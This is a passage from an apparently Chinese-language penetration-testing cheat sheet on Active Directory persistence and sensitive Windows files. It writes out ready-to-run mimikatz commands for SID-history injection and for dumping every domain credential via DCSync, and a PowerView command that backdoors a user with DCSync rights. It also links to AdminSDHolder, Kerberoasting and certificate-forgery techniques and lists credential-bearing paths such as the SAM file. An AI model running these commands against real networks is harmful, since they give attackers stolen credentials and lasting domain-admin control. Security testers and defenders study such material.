 ```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```

##### [AdminSDHolder＆SDProp](https://adsecurity.org/?p=1906)

利用AdminSDHolder＆SDProp（重新）获取域管理权限

##### Dcsync后门

向域成员赋予Dcsync权限

```
Powerview.ps1
Add-DomainObjectAcl -TargetIdentity "DC=vulntarget,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

在登录了test1域账户的机器上执行Dcsync利用操作

```
mimikatz "lsadump::dcsync /domain:vulntarget.com /all /csv"
```

##### 组策略

https://adsecurity.org/?p=2716 [策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531)

##### Hook PasswordChangeNotify

http://www.vuln.cn/6812

##### Kerberoasting后门

[域渗透-Kerberoasting](https://3gstudent.github.io/域渗透-Kerberoasting)

##### AdminSDHolder

[Backdooring AdminSDHolder for Persistence](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

##### Delegation

[Unconstrained Domain Persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

证书伪造： [pyForgeCert](https://github.com/Ridter/pyForgeCert)

# 11.敏感文件

## windows

敏感配置文件

```
C:\boot.ini     //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml    //IIS配置文件
C:\Windows\repair\sam     //存储系统初次安装的密码
C:\Program Files\mysql\my.ini     //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD    //Mysql root
C:\Windows\php.ini    //php配置信息
C:\Windows\my.ini     //Mysql配置信息
C:\Windows\win.ini    //Windows系统的一个基本系统配置文件
```
